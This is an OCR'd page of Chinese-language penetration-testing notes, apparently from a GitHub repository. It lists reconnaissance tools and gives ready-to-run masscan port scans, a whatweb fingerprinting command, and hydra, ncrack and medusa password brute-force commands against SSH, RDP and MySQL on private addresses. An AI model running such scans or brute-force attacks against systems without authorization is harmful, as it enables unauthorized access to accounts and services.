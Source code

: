 ```
masscan 172.18.2.1 -p1-65535 --rate=10000
masscan -p80,8080-8100 10.0.0.0/8 -oL result_mas.txt --rate=10000
masscan -p80,8080-8100 10.0.0.0/8 -oX result_mas.txt --rate=10000
```

### 邮箱搜集工具

EmailSniper

### 子域名收集

SubDominscanner

### 指纹收集

whatweb -v http://baidu.com

### web 目录扫描

御剑

Dirbuster

https://www.jianshu.com/p/79c7b1eda56e

webpathbrute

### 漏洞扫描

wvs

burpsuite

nessus（强烈推荐）

xray

### 爆破

hydra  

```
hydra -V -l fakeroot -P top100.txt 172.18.2.177 ssh
hydra -V -l admin -P top100.txt 172.18.2.177 rdp
hydra -V -l root -P top100.txt 172.18.2.177 mysql
```

ncrack  

```
ncrack -vv -d10 -user root -P top100.txt 172.18.2.177 -p ssh -g CL=10,at=3
ncrack -vv -d10 -user root -P top100.txt 172.18.2.177 -p mysql -g CL=10,at=3
```

medusa  

```
medusa -v 6 -h 172.18.2.177 -u fakeroot -P top100.txt -M ssh -t 10 -O out.txt
medusa -v 6 -h 172.18.2.177 -u root -P top100.txt -M mysql -t 10 -O out.txt
```
